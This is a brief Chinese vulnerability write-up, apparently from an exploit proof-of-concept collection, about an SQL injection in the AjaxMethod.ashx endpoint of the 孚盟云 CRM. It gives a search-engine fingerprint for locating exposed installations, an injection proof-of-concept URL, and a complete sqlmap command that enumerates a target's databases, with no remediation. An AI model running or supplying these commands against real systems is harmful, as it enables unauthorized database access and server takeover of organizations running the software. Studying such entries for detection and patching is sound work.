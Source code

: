 # 孚盟云 AjaxMethod.ashx SQL注入漏洞

# 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
孚盟云
```

## 网络测绘

```
title="孚盟云 "
```

## 漏洞复现

登录页面



![image-20220210184424096](/images/202202101844185.png)



验证POC



```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![image-20220210184439151](/images/202202101844214.png)



使用Sqlmap



```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```



![image-20220210184456424](/images/202202101844599.png)

